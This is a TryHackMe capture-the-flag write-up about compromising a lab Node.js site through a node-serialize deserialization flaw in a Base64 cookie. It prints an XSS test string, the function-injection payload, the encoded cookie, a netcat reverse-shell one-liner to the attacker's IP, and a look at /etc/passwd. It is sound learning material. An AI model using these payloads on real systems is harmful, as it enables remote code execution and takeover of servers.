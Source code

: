 **<p align="center">TryHackMe: Jax Sucks Alot.............</p>**
---

<p align="center">
  <img src="https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Jax-Sucks-Alot/Images/room%20icon.png" alt="image alt" width="180" />
</p>

[![Day 28 of 30 – Hack Documentation Challenge](https://img.shields.io/badge/Day%2028%20of%2030-Hack%20Documentation%20Challenge-crimson?style=for-the-badge&logo=tryhackme)](https://tryhackme.com)

“In JavaScript everything is a terrible mistake."

**Topic:** Web application pentesting

**Completed:** 8/12/2025

“We are Horror LLC, we specialize in horror, but one of the scarier aspects of our company is our front-end webserver. We can't launch our site in its current state and our level of concern regarding our cybersecurity is growing exponentially. We ask that you perform a thorough penetration test and try to compromise the root account. There are no rules for this engagement. Good luck!”

<p align="center">+++++++++</p>

Beginning with an `nmap -sV -sC` scan, I discovered two open TCP ports:
```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http
```
Navigating to the HTTP service, I found a website named Horror LLC, featuring a simple input field for visitors to submit their email addresses to receive newsletters.

![Alt text](1)

Inspecting the webpage’s source code revealed an interesting snippet of Node.js JavaScript, potentially exploitable given the room’s hint:
“In JavaScript everything is a terrible mistake.”

The source included a script that set a cookie with a suspicious session value, and submitted the email via a POST request, suggesting some backend logic processing the input.

![Alt text](2)

To check for basic client-side vulnerabilities, I tested the email input field with a common XSS payload:
```
test@example.com"><script>alert('XSS')</script>
```

However, this did not trigger any popup alert or visible script execution, indicating that the input was likely sanitized or not directly rendered.

![Alt text](3)

Using Firefox’s developer tools, I further inspected the page’s behavior during form submission. After submitting a test email address, I monitored the Storage tab and noticed a cookie was set, containing a Base64-encoded JSON string.
This suggested that the application stored some session or user data client-side in an encoded cookie, likely for tracking newsletter signups or sessions.

![Alt text](4)

Noticing the cookie value was Base64 encoded, I decoded it using an online tool. The result was:
```
{"email":"tester@email.com"}
```
This confirmed that the user input was being serialized and stored in the cookie, suggesting that the server likely deserializes this data on the backend, a potential vulnerability point.

![Alt text](5)

To investigate further, I looked into Node.js deserialization exploits and found a payload example on Exploit-db:
```
var serialize = require('node-serialize');
var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
serialize.unserialize(payload);
```           

Although the original payload included additional code wrapping, I discovered that injecting the function directly into the `email` field was sufficient to trigger code execution. 

This is because the server deserializes the JSON stored in the cookie and specifically processes the `email` property, making extra wrapping unnecessary. Using this simpler form made the exploit more straightforward:

```
{"email":"_$$ND_FUNC$$_function(){require('child_process').exec('ping -c 4 10.201.113.243')}()"
```

I replaced the `ls` command with a `ping` directed to my local machine to verify if the exploit could cause the server to initiate a callback.

![Alt text](6)

On my local machine, I set up a `tcpdump` listener to capture ICMP ping requests by running:
```
sudo tcpdump -i eth0 icmp
```
This command listens on the `eth0` network interface and filters for ICMP packets, allowing me to observe incoming ping requests from the target server.

![Alt text](7)

Using the crafted exploit payload:
```
{"email":"_$$ND_FUNC$$_function(){require('child_process').exec('ping -c 4 10.201.113.243')}()"
```

I encoded it using an online Base64 encoder, resulting in the following cookie value:
```
eyJlbWFpbCI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbiAoKXtyZXF1aXJlKFwnY2hpbGRfcHJvY2Vzc1wnKS5leGVjKCdwaW5nIC1jIDEwLjIwMS4xMTMuMjQzJywgZnVuY3Rpb24oZXJyb3IsIHN0ZG91dCwgc3RkZXJyKSB7IGNvbnNvbGUubG9nKHN0ZG91dCkgfSk7fSgpIn0=
```
I then replaced the cookie value with this string in the browser and refreshed the page. This successfully triggered ping requests to my local `tcpdump` listener, confirming the server executes the payload and the vulnerability is exploitable.

![Alt text](8)

Using and modifying the classic PentestMonkey Netcat reverse shell payload:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.201.113.243 4621 >/tmp/f
```
I set up a Netcat listener on my local machine, listening on port `4621`. I then incorporated this payload into my original exploit, Base64 encoded the entire JSON, and inserted it into the session cookie value field.

![Alt text](9)

![Alt text](10)

After refreshing the page to trigger the payload, I successfully received a reverse shell connection through the Netcat listener, landing me in the server’s `/opt/webapp` directory.
To stabilize the shell for easier interaction, I ran the following commands:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

![Alt text](11)

Running `sudo -l` revealed that the user had permission to run **all commands as root without a password**, opening the door to full control of the system!

![Alt text](12)

Next, I checked for user accounts on the system with home directories using:
```
cat /etc/passwd | grep “/home”
```
Finding three accounts, the `dylan` user stood out the most. With root access secured, accessing Dylan’s home directory and reading the `user.txt` flag, followed by the root flag, was easy!

![Alt text](13)

<p align="center">+</p>

**Lessons Learned**

This challenge was a solid demonstration of how powerful and dangerous deserialization vulnerabilities can be, especially in Node.js applications using `node-serialize`. Even something as simple as a cookie value can be exploited to gain full remote code execution if not properly validated.

It taught the importance of thoroughly inspecting client-side data handling and understanding the backend mechanisms involved. It was a great exercise in combining reconnaissance, creative payload crafting, and practical exploitation to achieve a full compromise.

I had fun learning something new!

<p align="center">+++++++++</p>

🔒 Out of respect for the learning experience, I’ve chosen not to share the flag answers directly. Instead, I’ve documented my full process to support both others and myself in understanding the vulnerability.

**Resources**:
- [TryHackMe's Jason Room](https://tryhackme.com/room/jason)
- [Node.js Explaination](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)
- [Exploit-DB](https://www.exploit-db.com/exploits/45265)
- [Online Decoder](https://appdevtools.com/base64-encoder-decoder)
